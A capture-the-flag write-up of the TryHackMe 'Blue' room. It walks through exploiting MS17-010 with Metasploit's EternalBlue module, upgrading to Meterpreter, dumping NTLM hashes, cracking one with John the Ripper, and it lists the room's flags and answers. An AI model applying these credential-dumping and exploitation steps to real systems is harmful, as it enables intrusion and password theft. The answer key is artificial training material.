

# TryHackMe: blue

> Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

*[Link](https://tryhackme.com/room/blue)

This TryHackMe is almost written like a walkthrough. Just follow the instructions... I didn't really repeat them here :)

## Recon

See `nmap.log`.

Flags:

* **How many ports are open with a port number under 1000?** 3
* **What is the machine vulnerable to?** MS17-010

## Gain Access



Flags:

* **Exploit code we will run against this machine:** exploit/windows/smb/ms17_010_eternalblue
* **Which option are we required to set?** RHOSTS


## Escalate


Flags:

* **'Post' module we will use to convert a shell to meterpreter**: post/multi/manage/shell_to_meterpreter
* **Option we are required to change:**: SESSION

## Cracking

```
(Meterpreter 245)(C:\Windows\system32) > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Cracking using John the ripper:

```
┌─[parrot@parrot]─[~/Desktop]
└──╼ $john --wordlist=rockyou.txt --format=NT tryhackme-blue/hashdump.txt 
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
alqfna22         (Jon)
2g 0:00:00:00 DONE (2023-08-02 16:02) 4.651g/s 23721Kp/s 23721Kc/s 23732KC/s alqueva1968..alpus
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

Flags:

* **What is the name of the non-default user?** Jon
* **What is the cracked password?** alqfna22

## Flags

Flag 1:

```
(Meterpreter 245)(C:\) > cat flag1.txt
flag{access_the_machine}
```

Flag 2:

```
C:\Windows\System32\config>type flag2.txt 
type flag2.txt
flag{sam_database_elevated_access}
```

Flag 3:

```
C:\Users\Jon\Documents>type flag3.txt
type flag3.txt
flag{admin_documents_can_be_valuable}
```

